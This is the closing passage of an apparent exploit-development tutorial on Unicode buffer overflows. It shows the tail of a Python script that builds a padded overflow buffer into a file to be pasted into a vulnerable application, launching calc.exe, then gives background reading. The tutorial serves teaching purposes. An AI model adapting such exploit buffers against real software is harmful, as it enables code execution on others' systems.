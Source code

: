 ```
buf += b"\x32\x45\x34\x38\x53\x35\x4b\x50\x41\x41"  
  
buf += b"\x44" * (5000 - len(buf))  
	  
f.write(buf)  
f.close()  
```

Now all we have to do is run the code, copy the contents of crash-6.txt to our copy buffer and inject them into our application and watch calc.exe pop up for us.

<p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/Exploit-Complete.PNG"/></p>    
<p align="center"><i>Completed exploit.</i></p>

## Conclusion

For a substantial amount of time it was believed that Unicode overflows were not exploitable and that they could only be used to cause a denial of service condition however in 2002 Chris Anley published a paper demonstrating this to be false. If you wish for some further reading on this topic I would suggest reading Building IA32 'Unicode-Proof' Shellcodes paper published in Phrack in 2003.
